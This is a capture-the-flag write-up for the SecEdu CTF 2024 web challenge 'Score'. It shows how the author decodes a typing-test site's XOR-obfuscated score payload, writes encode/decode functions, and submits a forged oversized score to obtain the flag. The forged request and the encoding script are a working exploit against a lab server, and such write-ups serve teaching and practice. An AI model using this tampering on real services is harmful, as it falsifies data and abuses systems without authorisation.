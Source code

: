 ```yaml
---
title: "Score"
description: "After a review, we found that ORG-C is hosting an unusual website on their servers... It looks like they're pretty competitive -- let's make sure they know who's boss!\n\n`http://chals.secedu.site:5007/`"
pubDate: 2024-10-01
ctf: "SecEdu CTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-secedu/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/seceduweek32024#score)

Visiting the site, we are shown a typing test!

![typetest.png](images/24-secedu/typetest.png)

There is also a leaderboard and a login page.

![typetestscoreboard.png](images/24-secedu/typetestscoreboard.png)

We try the credentials for `Br0kenC1ph3r23` on the login page and it works! (We later find out as long as the username is not taken the password doesn't matter...)

Ok, we have a login, let's try this test and see if we can mess with the score!

```
POST /api/score HTTP/1.1
Host: chals.secedu.site:5007
Content-Length: 120
...
{"score":"⏝⎄⏑⏖⏋⎄⎜⎒⎔⎈⎔⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎗⎊⎄⏔⏇⏑⎄⎜⎑⎑⎈⎒⏛"}
```

Huh..?

Some kind of weird character encoding, let's check out the JS source code of the site.

Doing some digging I find a [JS file](http://chals.secedu.site:5007/_app/immutable/nodes/2.B-bCw-im.js) with a segment of interest:
```js
const dt = (s, e) => {
        Te.set(s), Qe.set(e), qe.set(s * e), pt()
    },
    mt = () => JSON.stringify({
        wpm: f(qe),
        raw: f(Te)
    }).split("").map(e => e.charCodeAt(0)).map(e => e ^ 4401 ^ 5556 ^ 10019).map(e => String.fromCharCode(e)).join(""),
    pt = async () => {
        const s = await et("score", "POST", {
            score: mt()
        });
        s.success ? Ce.set(s.rank) : Ce.set(-1)
    }, Se = b(!1), ht = () => {
        Se.set(!1), $e(), ot()
    }, vt = () => {
        const s = D.length,
            a = f(F).reduce((n, t) => n + f(t).reduce((r, c) => r + +(c === !1), 0), 0) / s,
            l = s / 5;
        dt(l * (60 / xe), a), Se.set(!0)
    };
```

It seems to be doing some whacky XOR operation, let's make a quick decryption and encryption script for modification of the values.

```js
function decodeInput(output) {
    const decodedChars = output.split("").map(decodeChar);
    return decodedChars.join("");
}
function decodeChar(char) {
    return String.fromCharCode(char.charCodeAt(0) ^ 4401 ^ 5556 ^ 10019);
}
function encodeInput(input) {
    const encodedChars = input.split("").map(encodeChar);
    return encodedChars.join("");
}
function encodeChar(char) {
    return String.fromCharCode(char.charCodeAt(0) ^ 4401 ^ 5556 ^ 10019);
}
```

Loading those functions into the console, I try to `decodeInput()` my POST request data:
```js
> decodeInput("⏝⎄⏑⏖⏋⎄⎜⎒⎔⎈⎔⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎗⎊⎄⏔⏇⏑⎄⎜⎑⎑⎈⎒⏛")
'{"wpm":42.20000000000001,"raw":77.4}' 
```

Great! Let's try making that WPM and RAW values 100!

```js
> encodeInput('{"wpm":1000.0,"raw":1000.0}')
"⏝⎄⏑⏖⏋⎄⎜⎗⎖⎖⎖⎈⎖⎊⎄⏔⏇⏑⎄⎜⎗⎖⎖⎖⎈⎖⏛"
```

Sending that in the POST request we just get first on the leaderboard but no flag... What if we overload it with alot of `9`'s?

```js
> encodeInput('{"wpm":99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999.99,"raw":99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999.99}')
"⏝⎄⏑⏖⏋⎄⎜⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎈⎟⎟⎊⎄⏔⏇⏑⎄⎜⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎈⎟⎟⏛"
```

Sending that we get a better response:
```json
{"status":"SECEDU{definitely_not_a_robot}","success":true}
```

Flag: `SECEDU{definitely_not_a_robot}`